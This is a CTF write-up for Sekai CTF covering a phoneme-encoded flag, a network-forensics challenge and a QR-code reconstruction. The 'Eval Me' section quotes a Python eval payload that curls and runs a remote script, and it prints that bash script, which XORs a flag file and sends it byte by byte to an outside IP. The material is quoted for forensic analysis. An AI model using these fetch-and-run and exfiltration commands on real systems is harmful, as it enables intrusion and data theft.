

Sekai CTF team's CTF tournament. We had very nice intermediate-to-hard level of challenges. Some of the challenges were very unique. While, I did not have sufficient time to do this CTF justice, I enjoyed every challenge that I tried. 
<!--more-->
#### I love this world

`Vocaloid is a great software to get your computer sing the flag out to you, but what if you can’t afford it? No worries, there are plenty of other free tools you can use. How about — let’s say — this one?`

Attachment: `ilovethisworld.svp`

##### How I actually solved the challenge

1. Examined the attachment and found it to be a JSON format file. 
1. Searching the internet for `SVP` and `I love this world` showed this page: https://www.bilibili.com/read/cv16383991/
1. The article referenced `Synthesizer V` as the software that would play the `SVP` file
1. Downloaded the software and realized that I needed the voice database called `Eleanor Forte (Lite)`. Downloaded and installed the voice library too. 
1. Changed the tempo (speed) of the sound from `120` to `45`. This gave me a speech that could be intepreted as english letters and numbers.
1. Interpreting the sounds gets the flag.

##### How I ought to have solved it

```json
    "notes": [
        {
            "onset": 2660700000,
            "duration": 235200000,
            "lyrics": "\u304d",
            "phonemes": "eh f",     <<--- extract this field
            "pitch": 68,
            "detune": 0,
            "attributes": {
                "tF0Offset": -0.0,
                "tF0Left": 0.06666667014360428,
                "tF0Right": 0.06666667014360428,
                "dF0Left": 0.0,
                "dF0Right": 0.0,
                "dF0Vbr": 0.0
            }
        },
```

1. Examine the `SVP` JSON file. We see a bunch of fields related to generating speech. 
1. One of the fields is called `phonemes` and looks interesting.
1. Use a tool like `jsonpath_ng` to extract all values of the field `phonemes`. Maintain the order that was in the file. 
1. Extracting all the phonemes values show that it is the phonetic pronunciation of the flag
1. Reference (from post-CTF writeups): https://github.com/cmusphinx/sphinxtrain/blob/master/test/res/communicator.dic.cmu
1. Examples from that file:  `COLON` == `K OW L AX N`

```
% jsonpath_ng "$..phonemes" ilovethisworld.svp
eh f
eh l
ey
jh iy
k ow l ax n
... 
... 
```
Phonemes | Letters
----|----
eh f|F
eh l|L
ey|A
jh iy|G
k ow l ax n|`colon` :
eh s|S
iy|E
k ey|K
ey|A
ay|I
ow p ax n k er l iy b r ae k ih t| `open curly bracket` {
eh s|s
ow|o
eh m|m
iy|e
w ah n|`one`1
z iy|z
eh f|f
ey|a
aa r|r
ey|a
d ah b ax l y uw|`double u` w
ey|a
w ay|y
t iy|t
eh m|m
aa r|r
w ah n|`one` 1
f ay v|`five`5
eh s|s
iy|e
k y uw|q
y uw|u
iy|e
eh l|l
t iy|t
ow|o
ow|o
y uw|u
aa r|r
d iy|d
aa r|r
iy|e
ey|a
eh m|m
t iy|t
d iy|d
w ay|y
k l ow  s k er l iy b r ae k ih t|`close curly bracket` }

`FLAG: SEKAI{some1zfarawaytmr15sequeltoourdreamtdy}`

#### Eval Me
`I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?`

Attachment: `capture.pcapng`

In addition to the network packet capture, we are also given the netcat info to a challenge server.

Connecting to the server via netcat, gives us this:
```
Welcome to this intro pwntools challenge.
I will send you calculations and you will send me the answer
Do it 100 times within time limit and you get the flag :)

3 * 10
```

So, this seems like a simple pwntools challenge, assisted by a call to the `eval()` function in python.

```python
    from pwn import *
    context.log_level = 'debug'

    R = remote("chals.sekai.team",9000)
    R.recvuntil(b'flag :)\n\n')
    for i in range(100):
        line = R.recvline().decode().strip()
        print(f"Eval({line})")
        ans = eval(line)
        R.sendline(str(ans).encode())
        R.recvuntil(b'correct\n')
    R.interactive()
```
Somewhere during the evaluation of the 100 statements, one of the statements is a tricky beast of python code that purports to download a script from a site, executes the script and deletes it. 
```
    b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r'
    b'#1 + 2 
```
Using curl to pull down the script shows the following program.

```bash
    #!/bin/bash
    FLAG=$(cat flag.txt)
    KEY='s3k@1_v3ry_w0w'
    # Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
    Asc() { printf '%d' "'$1"; }

    XOREncrypt(){
        local key="$1" DataIn="$2"
        local ptr DataOut val1 val2 val3

        for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

            val1=$( Asc "${DataIn:$ptr:1}" )
            val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

            val3=$(( val1 ^ val2 ))

            DataOut+=$(printf '%02x' "$val3")
        done

        echo $DataOut

        for ((i=0;i<${#DataOut};i+=2)); do
        BYTE=${DataOut:$i:2}
        echo $BYTE 
        echo curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
        done
    }

    echo XOREncrypt $KEY $FLAG
    XOREncrypt $KEY $FLAG

    exit 0
```
We can see that it is reading the flag from `flag.txt`, XOR-ing it with a key `s3k@1_v3ry_w0w` and sends the results one byte at a time to a remote server through a POST call with a JSON payload.

Now, turning our attention to the PCAP file, we can see from the protocol hierarchy stats, that it has 102 frames of JSON data. 

```
% tshark -r capture.pcapng -z io,phs
===================================================================
Protocol Hierarchy Statistics
Filter: 

eth                                      frames:827 bytes:105559
  ip                                     frames:823 bytes:105391
    udp                                  frames:20 bytes:2857
      dns                                frames:16 bytes:1989
      ssdp                               frames:4 bytes:868
    tcp                                  frames:803 bytes:102534
      tls                                frames:241 bytes:49721
        tcp.segments                     frames:4 bytes:2585
          tls                            frames:1 bytes:1268
      http                               frames:102 bytes:22797
        json                             frames:102 bytes:22797
  arp                                    frames:4 bytes:168
===================================================================
```
After examining the JSON data, we can see that it is one byte and can be extracted by the following command.

```
% tshark -r capture.pcapng -Tfields -ejson.value.string -Y "json"  | xargs
20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f
```
Since this byte value was the result of the flag character XOR'ed with the key, we reverse the process to get the flag back. 

```python
s = "20762001782445454615001000284b41193243004e41000b2d0542052c0b1932432d0441000b2d05422852124a1f096b4e000f"
KEY=b's3k@1_v3ry_w0w'

print(xor(unhex(s), KEY))
# b'SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}'
```

#### QR God (to do)
`My friend claims to be a QR God. So I tested his knowledge on reconstruction. I gave him the bits and he came up with this, perhaps he forgot that it doesn’t work like a Gutenberg Diagram.`

I struggled with this challenge and could not solve it in time. I missed the biggest clue in the challenge description. Which was to look up what a `Gutenberg Diagram` is. 


`The Gutenberg Diagram is a visualization of how Latin-alphabet readers — those of us who read from left-to-right, top-to-bottom — process information presented on a webpage.`

With that background and contrasting that method to the reading order of the databits in the QR code standard, we can see what the challenge is. 
 

We presume that the `QR code (?)` was constructed and laid our `L->R, T->B` within the data fields. Once the data is laid out, QR codes are masked with a XOR pattern to eliminate any grouping of like bits or long sequences of the same value. Since the problem description also contained this piece, we assume that the mask was applied properly using one of the 8 possible patterns before redistributing the bits according to the `Gutenberg reading order`.


So, our solution would consist of the following steps:
1. Read the bits from the problem QR challenge in the `Gutenberg order` (`L-R, T-B`)
1. Redistribute these bits in the same order along the standard QR scheme, starting at the bottom-right corner.
1. We don't know what error correction quality and mask pattern was used to generate the QR diagram. 
1. Brute-force by trying all possible quality (Four possibilities: `L', 'M', 'Q' and 'H') and all XOR patterns (Eight possibilities) for a total of 32 possible variations. 
1. Store the QR code ECC quality and mask values in the format line area as shown below. 
1. If the code can be interpreted successfully, then we should get the flag. 



The next problem to solve is to figure out an algorithm/logic to read the bits from challenge QR code and write them in a different place according to the QR standard. The algo I came up with is to divide the bit-space into rectangles and read/write entries in the rectangle in a particular order. In the diagram below the left side depicts the reading order (L-R, T-B) and the right side shows the QR standard writing order. 

The blue squares shows the starting point of the rectangle being processed, and the green square is the opposite end of the diagonal for the rectangle. The relative difference between the coordinates of Blue[\\(X_0, Y_0\\)] and Green [\\(X_1, Y_1\\)] will give us the direction in which we need to traverse.


Now for some coding. I used [Qrazybox](https://merri.cx/qrazybox/) to take the provided image of the QR code, fixed some errors and turned it into a text representation. This textual QR code was represented as a list of lists in the following program.

```python
    QR= [
        list("#######__##_#_#######"),
        list("#_____#__#____#_____#"),
        list("#_###_#__#__#_#_###_#"),
        list("#_###_#__##___#_###_#"),
        list("#_###_#__#_#__#_###_#"),
        list("#_____#__##_#_#_____#"),
        list("#######_#_#_#_#######"),
        list("___________##________"),
        list("______#____#_________"),
        list("##_#___#__###__#_____"),
        list("###___##_##_####_#_#_"),
        list("_##________#___###__#"),
        list("__#_#_##_####___##_#_"),
        list("________###_#####_#__"),
        list("#######____##_##____#"),
        list("#_____#___#__#__#_###"),
        list("#_###_#__#_#__#_##___"),
        list("#_###_#__##___#____#_"),
        list("#_###_#___#___#_##_##"),
        list("#_____#___####____#_#"),
        list("#######__#_##___##_##"),
    ]
    _size = len(QR)

    read_order = [
        [(0, 9) , (5, 12)],
        [(7, 9) , (8, 12)],
        [(9, 0) , (9, 5)], 
        [(9, 7) , (9, 20)], 
        [(10, 0) , (10, 5)], 
        [(10, 7) , (10, 20)], 
        [(11, 0) , (11, 5)], 
        [(11, 7) , (11, 20)], 
        [(12, 0) , (12, 5)], 
        [(12, 7) , (12, 20)], 
        [(13, 9) , (20, 20)], 
    ]

    write_order=[
        [(20, 20), (9, 19)], 
        [(9, 18), (20, 17)], 
        [(20, 16), (9, 15)], 
        [(9, 14), (20, 13)], 
        [(20, 12), (7, 11)], 
        [(5, 12), (0, 11)], 
        [(0, 10), (5, 9)], 
        [(7, 10), (20, 9)], 
        [(12, 8), (9, 7)], 
        [(9, 5), (12, 4)], 
        [(12, 3), (9, 2)], 
        [(9, 1), (12, 0)], 
    ]

    def arrangeQR(QR, read_order, write_order):
        bits = []
        #Read the relevant bits from the QR code using reading order
        for rect in read_order:
            x0, y0 = rect[0][0], rect[0][1]     # starting point of the diagonal
            x1, y1 = rect[1][0], rect[1][1]     # end point of the diagonal

            # determine the direction of traversal
            xdir = 1 if x1 >= x0 else -1
            ydir = 1 if y1 >= y0 else -1

            for x in range(x0, x1 + xdir, xdir):
                for y in range(y0, y1 + ydir, ydir):
                        bits.append(QR[x][y])

        idx = 0
        for rect in write_order:
            x0, y0 = rect[0][0], rect[0][1]     # starting point of the diagonal
            x1, y1 = rect[1][0], rect[1][1]     # end point of the diagonal

            # determine the direction of traversal
            xdir = 1 if x1 >= x0 else -1
            ydir = 1 if y1 >= y0 else -1

            for x in range(x0, x1 + xdir, xdir):
                for y in range(y0, y1 + ydir, ydir):
                        QR[x][y] = bits[idx]
                        idx += 1

    # format bit generation code borrowed from Project Nayuki
    # https://github.com/nayuki/QR-Code-generator/tree/master

    def get_format_bits(error_formatbits, mask) -> int:
        data: int = error_formatbits << 3 | mask  # errCorrLvl is uint2, mask is uint3
        rem: int = data
        for _ in range(10):
            rem = (rem << 1) ^ ((rem >> 9) * 0x537)
        bits: int = (data << 10 | rem) ^ 0x5412  # uint15
        assert bits >> 15 == 0

        return bits

    def get_format_bits(error_formatbits, mask) -> int:
        data: int = error_formatbits << 3 | mask  # errCorrLvl is uint2, mask is uint3
        rem: int = data
        for _ in range(10):
            rem = (rem << 1) ^ ((rem >> 9) * 0x537)
        bits: int = (data << 10 | rem) ^ 0x5412  # uint15
        assert bits >> 15 == 0

        return bits

    def _get_bit(x: int, i: int) -> bool:
        """Returns true iff the i'th bit of x is set to 1."""
        return (x >> i) & 1 != 0

    def set_QR_format_bit(row, col, val):
        QR[row][col] = '#' if val else '_'

    def setQR(bits):
        # Draw first copy
        for i in range(0, 6):
            set_QR_format_bit(8, i, _get_bit(bits, i))
        set_QR_format_bit(8, 7, _get_bit(bits, 6))
        set_QR_format_bit(8, 8, _get_bit(bits, 7))
        set_QR_format_bit(7, 8, _get_bit(bits, 8))
        for i in range(9, 15):
            set_QR_format_bit(14 - i, 8, _get_bit(bits, i))
        
        # Draw second copy
        for i in range(0, 8):
            set_QR_format_bit(_size - 1 - i, 8, _get_bit(bits, i))
        for i in range(8, 15):
            set_QR_format_bit(8, _size - 15 + i, _get_bit(bits, i))
        set_QR_format_bit(_size - 8, 8, True)  # Always dark

    def printQR():
        print(" ")
        for l in QR:
            # Use two characters for a square aspect-ratio
            print(''.join(['██' if x=='#' else '  ' for x in l])) 
        print(" ")

    printQR()       
    arrangeQR(QR, read_order, write_order)
    for formats in [1, 0, 3, 2]:
        for masks in range(8):
            print(f"F:{formats} M:{masks}")     # Format 2 (High)   Mask 4 produces a readable code
            bits = get_format_bits(formats, masks)
            setQR(bits)
            printQR()
            input()     #pause after printing each variation

```


Scanning this QR code will produce the flag: `SEKAI{G0d_Ch4mP}`

### Writeups, Resources
* CryptoGRAPHy 1 : https://ctfnote.leg.bzh/pad/s/Z_QKPfErn
* CryptoGRAPHy 2 : https://ctfnote.leg.bzh/pad/s/dZNZbd-9e
* CryptoGRAPHy 3 : https://ctfnote.leg.bzh/pad/s/t1i5QbLlx
* NoisyCRC : https://ctfnote.leg.bzh/pad/s/haum5HonP 
* https://github.com/7Rocky/CTF-scripts/tree/main/Sekai%20CTF
* https://github.com/deut-erium/auto-cryptanalysis


### Challenges

|Category|Challenge|Description
|----|----|----
|Cryptography |Diffecientwo|
|Cryptography |Noisier CRC|
|Cryptography |Noisy CRC|
|Cryptography |RandSubWare|
|Cryptography |cryptoGRAPHy 1|
|Cryptography |cryptoGRAPHy 2|
|Cryptography |cryptoGRAPHy 3|
|Forensics |DEF CON Invitation|
|Forensics |Dumpster Dive|
|Forensics |Eval Me|
|Forensics |Infected|
|Misc |A letter from the Human Resource Management|
|Misc |I love this world|
|Misc |Just Another Pickle Jail|
|Misc |QR God|
|Misc |SSH|
|Misc |SekaiCTFCorp|
|Misc |[Blockchain] Play for Free|
|Misc |[Blockchain] Re-Remix|
|Misc |▶ Sanity Check|
|Misc |▻ Survey|
|PPC |Mikusweeper|
|PPC |Project Sekai Event Planner|
|PPC |Purple Sheep And The Apple Rush|
|PPC |Wiki Game|
|Pwn |Algorithm Multitool|
|Pwn |Cosmic Ray|
|Pwn |Hibana|
|Pwn |Network Tools|
|Pwn |Notification|
|Pwn |Text Sender|
|Pwn |[Blockchain] The Bidding|
|Reverse |Azusawa’s Gacha World|
|Reverse |Conquest of Camelot|
|Reverse |Guardians of the Kernel|
|Reverse |Sahuang Flag Checker|
|Reverse |Teyvat Travel Guide|
|Web |Chunky|
|Web |Frog-WAF|
|Web |Golf Jail|
|Web |Leakless Note|
|Web |Scanner Service|
